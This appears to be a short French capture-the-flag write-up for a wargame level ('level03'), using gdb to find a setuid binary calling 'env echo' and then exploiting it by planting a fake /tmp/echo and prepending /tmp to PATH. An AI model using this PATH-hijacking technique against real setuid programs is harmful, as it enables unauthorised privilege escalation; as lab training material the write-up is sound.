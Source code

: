 Il y a un seteuid sur le binaire level03
```bash
gdb level03
```
Je désassemble le main

`disassemble main`

Je place un BP sur l'address
`b *address`

Je tcheck l'address
`x/w $esp`

`x/s address`

Et j'obtient l'execution de system
"/usr/bin/env echo Exploit me"

Je crée le binaire /tmp/echo
```bash
echo "getflag" > /tmp/echo
```

Et je change le PATH d'environnement

```bash
export PATH=/tmp:$PATH
```

Esuite j'execute le binaire level03